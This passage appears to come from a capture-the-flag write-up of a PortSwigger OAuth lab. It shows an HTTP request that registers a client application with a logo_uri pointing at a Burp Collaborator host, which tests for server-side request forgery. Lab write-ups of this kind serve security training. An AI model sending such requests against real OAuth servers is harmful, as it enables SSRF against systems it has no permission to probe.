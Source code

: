 Hmm... "204 No Content"

**That being said, we can try to supply a `logo_uri` property with our Burp Collaborator payload.**

- Go to Burp Suite's Collaborator, and copy to clipboard:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-5/images/Pasted%20image%2020230302201210.png)

- Register a new client application with `logo_uri`:

```http
POST /reg HTTP/1.1
Host: oauth-0a2400cc04337b2fc038f7ce02e90099.oauth-server.net
Content-Type: application/json
Content-Length: 137

{
    "redirect_uris": [
        "https://test.com"
    ],
    "logo_uri": "https://lti04hljv02z1dqgkryt8r22htnkbbz0.oastify.com"
}	
```
